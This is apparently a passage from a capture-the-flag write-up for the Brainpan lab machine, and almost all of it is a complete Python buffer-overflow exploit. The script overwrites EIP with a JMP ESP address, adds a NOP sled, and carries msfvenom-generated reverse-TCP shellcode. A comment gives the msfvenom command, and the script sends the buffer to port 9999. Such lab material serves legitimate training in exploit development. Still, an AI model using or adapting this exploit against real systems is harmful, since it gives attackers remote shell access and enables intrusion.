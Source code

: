 The final exploit script is:

```highlight
#!/usr/bin/python3                                                                                                        
                                                                                                                          
import sys, socket                                                                                                        
from time import sleep                                                                                                    
                                                                                                                          
#badchars = /x00                                                                                                          
                                                                                                                          
#msfvenom -p windows/shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
                                                                                                                          
payload = ("\xb8\x6b\x6e\x2b\xda\xda\xc8\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"                                                
"\x52\x31\x42\x12\x03\x42\x12\x83\x81\x92\xc9\x2f\xa9\x83\x8c"                                                            
"\xd0\x51\x54\xf1\x59\xb4\x65\x31\x3d\xbd\xd6\x81\x35\x93\xda"                                                            
"\x6a\x1b\x07\x68\x1e\xb4\x28\xd9\x95\xe2\x07\xda\x86\xd7\x06"
"\x58\xd5\x0b\xe8\x61\x16\x5e\xe9\xa6\x4b\x93\xbb\x7f\x07\x06"
"\x2b\x0b\x5d\x9b\xc0\x47\x73\x9b\x35\x1f\x72\x8a\xe8\x2b\x2d"
"\x0c\x0b\xff\x45\x05\x13\x1c\x63\xdf\xa8\xd6\x1f\xde\x78\x27"
"\xdf\x4d\x45\x87\x12\x8f\x82\x20\xcd\xfa\xfa\x52\x70\xfd\x39"
"\x28\xae\x88\xd9\x8a\x25\x2a\x05\x2a\xe9\xad\xce\x20\x46\xb9"
"\x88\x24\x59\x6e\xa3\x51\xd2\x91\x63\xd0\xa0\xb5\xa7\xb8\x73"
"\xd7\xfe\x64\xd5\xe8\xe0\xc6\x8a\x4c\x6b\xea\xdf\xfc\x36\x63"
"\x13\xcd\xc8\x73\x3b\x46\xbb\x41\xe4\xfc\x53\xea\x6d\xdb\xa4"
"\x0d\x44\x9b\x3a\xf0\x67\xdc\x13\x37\x33\x8c\x0b\x9e\x3c\x47"
"\xcb\x1f\xe9\xc8\x9b\x8f\x42\xa9\x4b\x70\x33\x41\x81\x7f\x6c"
"\x71\xaa\x55\x05\x18\x51\x3e\x20\xd5\x4c\x67\x5c\xe7\x6e\x86"
"\xc1\x6e\x88\xc2\xe9\x26\x03\x7b\x93\x62\xdf\x1a\x5c\xb9\x9a"
"\x1d\xd6\x4e\x5b\xd3\x1f\x3a\x4f\x84\xef\x71\x2d\x03\xef\xaf"
"\x59\xcf\x62\x34\x99\x86\x9e\xe3\xce\xcf\x51\xfa\x9a\xfd\xc8"
"\x54\xb8\xff\x8d\x9f\x78\x24\x6e\x21\x81\xa9\xca\x05\x91\x77"
"\xd2\x01\xc5\x27\x85\xdf\xb3\x81\x7f\xae\x6d\x58\xd3\x78\xf9"
"\x1d\x1f\xbb\x7f\x22\x4a\x4d\x9f\x93\x23\x08\xa0\x1c\xa4\x9c"
"\xd9\x40\x54\x62\x30\xc1\x74\x81\x90\x3c\x1d\x1c\x71\xfd\x40"
"\x9f\xac\xc2\x7c\x1c\x44\xbb\x7a\x3c\x2d\xbe\xc7\xfa\xde\xb2"
"\x58\x6f\xe0\x61\x58\xba")

filler = "A" * 524
EIP = "\xf3\x12\x17\x31" #JMP ESP - 311712f3
offset = "C" * 4
nops = "\x90" * 32
buffer = filler + EIP + offset + nops + payload

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
```
